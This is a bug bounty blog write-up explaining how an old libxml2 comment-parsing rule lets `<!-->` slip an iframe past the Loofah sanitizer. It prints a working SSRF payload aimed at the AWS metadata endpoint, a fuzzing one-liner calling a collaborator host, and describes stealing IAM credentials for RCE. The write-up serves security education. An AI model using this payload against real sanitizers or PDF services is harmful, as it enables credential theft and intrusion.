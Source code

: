 ```yaml
---
layout: post
title:  "Opinions are like Bugs - Every Spec has one."
date:   2023-07-24
categories: bugbounty
---
```


*When two specifications have differing opinions on how something should be parsed: here be dragons.*

This writeup is about a bug I first discovered over a year ago and have found a number of times since. There's nothing particularly novel about the vulnerability itself, but I think there's an interesting lesson in here about why it exists, and about where to look for other bugs that exist for the same reason. 

---

The first time I spotted this issue it was in a sanitizer library for ruby called [loofah](https://github.com/flavorjones/loofah). This is a tool commonly used in Ruby on Rails projects, and has shipped as a part of Rails core since v4.2. That finding let me escalate a strictly limited html injection to RCE. Below is what the html injection payload looked like, you may be able to guess how it worked.

```
<!--><iframe src=http://169.254.169.254/latest/meta-data></iframe>-->
```

The application I was testing allowed me to generate reports and export them as PDFs. After generating a sample and examining the metadata I knew what pdf generator was being used to accomplish this. A quick test of that tool proved that an SSRF should be possible if I could inject an iframe, as the generator would attempt to populate that iframe by loading it from the server. Injecting an image tag pointing to a burp collab resulted in a callback from an aws EC2 ip, so my plan was to try pulling IAM creds from the aws metadata instance. At first this failed. 

All of the inputs I could control were validated against a strict allowlist of safe html tags and attributes. Things like text formatting, images, and links were allowed but iframes were not.

I spent some time mapping out allowed tags and attributes, but the results didn't look very promising. After a lot of testing I had exhausted all obvious options, but I was so close I couldn't stop yet. One final possibility was still tickling my brain. 

I wasn't totally sure what was being used to scrub my input, and I wanted to thoroughly test the sanitizer before calling it complete. I knew it was a ruby on rails application, and that rails made Loofah available for sanitizing HTML input. I pulled open rails console and starting pushing on Loofah in every direction trying to find interesting behaviour. Of all the tags that were allowed by the application I was testing, the one that stood out the most was the HTML comment tag `<!-- -->`. I wondered if it might be possible to leverage a parsing differential such that loofah would see the iframe as being inside a comment, but the pdf generator would not. 

The test was fairly simple to implement. I generated a wordlist using the following oneliner, and generated a pdf report containing that wordlist. I expected most of them to be considered comments by the PDF generator, but if any of the iframes were rendered I should get a nudge on my burp collaborator. 

```
ruby -e "0.upto(65535) {|i| puts '<\!--' << i << '<iframe src=burpcollap/?id=' << i << '></iframe>-->'}"
...
<!--[<iframe src=burpcollab/?id=91></iframe>-->
<!--\<iframe src=burpcollab/?id=92></iframe>-->
<!--]<iframe src=burpcollab/?id=93></iframe>-->
<!--^<iframe src=burpcollab/?id=94></iframe>-->
<!--_<iframe src=burpcollab/?id=95></iframe>-->
...
```

To my surprise, I got a hit on `burpcollab/?id=62`, the codepoint for the greater-than character `>`. This allowed me to bypass the sanitizer, inject an iframe, steal creds, and escalate to RCE. But... WHY?

![image](https://media4.giphy.com/media/zrmTqopWm4W5cPg8Ah/giphy.gif?cid=ecf05e47y5ni6z9jd9m44cw1nvjr16cx3cpbw5zi8tmblrgl&ep=v1_gifs_search&rid=giphy.gif&ct=g)

# But why?

To investigate what was going on I pulled open my ruby interpreter to see what this input looked like from Loofah's perspective. I started by defining a loofah scrubber that would take an html fragment and remove any instances of the <iframe> tag.

```
irb(main):001:0> require 'loofah'
=> true
irb(main):002:1* iframe_scrubber = Loofah::Scrubber.new do |node|
irb(main):003:1*   node.remove if node.name == "iframe"
irb(main):004:0> end
```
I tested this on a normal iframe, and it behaved as expected:
```
irb(main):005:0> html = "<h1>iframe test</h1><iframe></iframe>"
irb(main):006:0> Loofah.fragment(html).scrub!(iframe_scrubber).to_s
=> "<h1>iframe test</h1>"
```
Then I tested it with a normal comment:
```
irb(main):007:0> html = "<h1>iframe test</h1><!--<iframe></iframe>-->"
irb(main):008:0> Loofah.fragment(html).scrub!(iframe_scrubber).to_s
=> "<h1>iframe test</h1><!--<iframe></iframe>-->"
```
And finally, with the modified comment discovered by our fuzzer:
```
irb(main):009:0> html = "<h1>iframe test</h1><!--><iframe></iframe>-->"
irb(main):010:0> Loofah.fragment(html).scrub!(iframe_scrubber).to_s
=> "<h1>iframe test</h1><!--><iframe></iframe>-->"
```
As expected, Loofah see's the iframe tag in both of the the last two examples as being safely tucked inside a comment. However, when this exact same code is passed to the pdf generator, the iframe is rendered. This means that whatever is parsing the HTML in the pdf generator parses this in such a way that the iframe tag is not inside the comment. 

Even better, the html parsers in modern browsers agree with the pdf generator. Open a page with this html in chrome, firefox, edge, etc, and you'll see a rendered iframe:
```
<!--><iframe src=about:blank></iframe>-->
```

At first glance, this seemed like a bug in the html parser that Loofah is using, but after some investigation it turned out to be something much worse: Competing specs with different opinions. 

![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/c57b60f0-9e28-496b-b6e5-00062a7daba1)

---

# Competing Specs

Loofah uses an html parsing framework called Nokogiri, which is built on libxml2. Libxml2 is a very popular xml (and html) parsing library that tries to be compliant with the [W3C html 5 specification](https://www.w3.org/TR/2011/WD-html5-20110405/tokenization.html). The problem is that this library is very old, and pieces of it's parsing functionality are much older than the most recent version of the standard. 

The library's comment parsing functionality, for example, was [implemented in 2000](https://github.com/GNOME/libxml2/blame/75693281389aab047b424d46df944b35ab4a3263/HTMLparser.c#L3455). At that time, there wasn't any clear guidance in the standard around how to parse comments. The way the libxml2 authors interpreted the specification resulted in the following steps:

- the tokenizer encounters the opening comment sequence `<!--` 
- Move the tokenizer forward until et encounters the closing comment sequence `-->` 
- treat everything inside as a comment. 

This means that, given our sequence `<!-->`, the `>` would be ignored and everything up to `-->` would be a comment. This explains why Loofah saw our iframe as being inside a comment. 

Eventually, the rules changed and as of the first completed html5 spec published in 2008, the rules for parsing comments were as follows:

- We start in "tag open state," and we encounter an `!`, so we swtich to "markup declaration state"
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/910ae211-55c1-418c-bc4b-e451f3f550c1)


- If the next two characters are `--` we switch to `comment start state`
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/cf9df270-cfb4-4e7b-a16f-372f54112f52)


- And finally, if the very next character is `>`, we throw a parse error and switch back to "data state" instead of "comment state".
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/3772de46-3a2c-4d2f-97ea-c5abd2a36258)


Now, given the sequence `<!-->`, the comment is opened and then immediately closed. Everything following the `>` is outside the comments. This explains why the PDF generator, and modern browsers, render the iframe. 

---

This issue has been patched in the most recent version of libxml2, but I still find it frequently. Any HTML parsing framework that depends on an old version of libxml2, or was developed against an older version of the HTML5 spec is likely vulnerable to this bug. For example, beautiful soup is another parsing framework that follows the old rules for parsing comments: 

```
>>> import bs5
>>> soup = bs4.BeautifulSoup("<iframe></iframe>", "html.parser")
>>> soup.iframe
<iframe></iframe>
>>> soup = bs4.BeautifulSoup("<!-- <iframe></iframe> -->", "html.parser")
>>> soup.iframe
>>> soup = bs4.BeautifulSoup("<!--> <iframe></iframe> -->", "html.parser")
>>> soup.iframe
>>>
```
Note that the last two examples, the normal comment and the abruptly closed comment, are treated the same. This has been reported but no fix has been implemented as yet. 

---

# Lesson

The lesson I learned from this research is that when you're dealing with complex functionality that depends on a specification like an RFC, you should read it. These documents can be a slog but the more you read the better you'll become at parsing and understanding them. There are so many subtle details hidden away in standards that are just waiting to be stumbled on by the right hacker with the right mindset. Keep your eyes peeled for ambiguous language, major changes across versions, and situations where more than one standard exists and your input is being consumed by both of them at different times.
